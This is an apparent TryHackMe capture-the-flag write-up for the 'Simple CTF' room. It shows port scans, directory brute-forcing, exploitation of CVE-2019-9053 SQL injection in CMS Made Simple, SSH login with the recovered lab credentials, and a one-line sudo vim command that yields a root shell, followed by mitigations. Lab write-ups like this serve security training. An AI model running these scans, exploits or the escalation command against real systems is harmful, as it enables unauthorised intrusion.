 ```yaml
---
description: Beginner level ctf
---
```


# Simple CTF

The room can be accessed [here](https://tryhackme.com/room/easyctf)

## Information Gathering

I typically start with a Rustscan, simply because it gives me open ports faster. Once I get this, I might use Nmap for specific ports.

### Rustscan Scan

```bash
┌──(lvksus㉿kali)-[~]
└─$ rustscan -a 10.10.37.78 --ulimit 5000                                  1 ⨯
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/lvksus/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.37.78:21
Open 10.10.37.78:80
Open 10.10.37.78:2222
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:54 EST
Initiating Ping Scan at 22:54
Scanning 10.10.37.78 [2 ports]
Completed Ping Scan at 22:54, 2.09s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:54
Completed Parallel DNS resolution of 1 host. at 22:54, 0.00s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:54
Scanning 10.10.37.78 [3 ports]
Discovered open port 21/tcp on 10.10.37.78
Discovered open port 2222/tcp on 10.10.37.78
Discovered open port 80/tcp on 10.10.37.78
Completed Connect Scan at 22:54, 1.45s elapsed (3 total ports)
Nmap scan report for 10.10.37.78
Host is up, received syn-ack (0.20s latency).
Scanned at 2022-02-01 22:54:19 EST for 1s

PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack
80/tcp   open  http         syn-ack
2222/tcp open  EtherNetIP-1 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 3.59 seconds
```

### Nmap Scan

```bash
┌──(lvksus㉿kali)-[~/Documents/tryhackme/simple_ctf]
└─$ nmap -sV 10.10.37.78                             
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 22:55 EST
Nmap scan report for 10.10.37.78
Host is up (0.090s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.57 seconds
```

Right away, seeing port 2222 for SSH is very strange. We see that FTP is using version vsftpd 3.0.3 and the HTTP website is running on Apache version 2.4.18

## Enumeration

### Dirsearch

I use my favorite directory brute-forcer to look for any directories that might seem interesting

```bash
┌──(lvksus㉿kali)-[~]
└─$ dirsearch -u http://10.10.37.78 -w /usr/share/dirb/wordlists/common.txt -x 404 -t 100

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 4613

Output File: /home/lvksus/.dirsearch/reports/10.10.37.78/_22-02-01_23-11-21.txt

Error Log: /home/lvksus/.dirsearch/logs/errors-22-02-01_23-11-21.log

Target: http://10.10.37.78/

[23:11:21] Starting: 
[23:11:30] 200 -   11KB - /index.html                                       
[23:11:35] 200 -  929B  - /robots.txt                                       
[23:11:35] 403 -  299B  - /server-status                                    
[23:11:35] 301 -  311B  - /simple  ->  http://10.10.37.78/simple/           
                                                                             
Task Completed
```

![CMS Made Simple Version](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Made Simple Version.png>)

![CMS Made Simple Admin Login](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_CMS Admin Console.png>)

## Vulnerability Assessment

This Content Management System is vulnerable to [CVE-2019-9053: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9](https://www.exploit-db.com/exploits/46635)

### Proof of Concept&#x20;

As shown in the image below, we see that the site produces output when we use some kind of SQL statement

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_POC.png>)

{% hint style="info" %}
Used this for termcolor issue when trying to run the exploit

[https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/](https://www.reddit.com/r/tryhackme/comments/p6v195/help\_with\_simple\_ctf/)
{% endhint %}

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Exploit (1).png>)

### Credentials

username: <mark style="color:green;">`mitch`</mark>\
email: <mark style="color:green;">`admin@admin.com`</mark>\
password: <mark style="color:green;">`secret`</mark>

With these credentials and knowing the fact that SSH port 2222 was open, it would make the most sense to see if we can log into that service

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_ssh+user.txt.png>)

As we see, they work and we are able to grab the user.txt

## Privilege Escalation

Next comes privilege escalation. Let's see what commands mitch is able to run as root

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_Pasted image 20220202112308.png>)

Vim is a very powerful text editor. We'll check out the infamous GTFObins for a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems

In our case, we want to be able to run Vim in such a way that will grant our low privilege user the ability to become root

[https://gtfobins.github.io/gtfobins/vim/#sudo](https://gtfobins.github.io/gtfobins/vim/#sudo)

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_sudo vim.png>)

Just from a simple line of input, we are now root

```bash
mitch@Machine:/home$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
mitch@Machine:/home$ sudo /usr/bin/vim -c ':!/bin/bash'

root@Machine:/home# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:/home# 
```

## Root Flag

![](<../../.gitbook/assets/C\_\_Users\_madam\_Documents\_Cybersecurity\_OffSec\_WriteUps\_THM\_Simple CTF\_Simple CTF Images\_rootFlag.png>)

## Mitigations

### **Password Change**

The user 'Mitch' should change their password to something secure such as: <mark style="color:green;">`Jlds#5@asd53Z`</mark>

### **SQLi Sanitization**

* Client-Side and Server-Side input validation and sanitization
* Secure Coding & SDLC

### Removal of root privileges

* Unless there's a justifiable reason that mitch should be able to run Vim as root, those privileges should be taken away
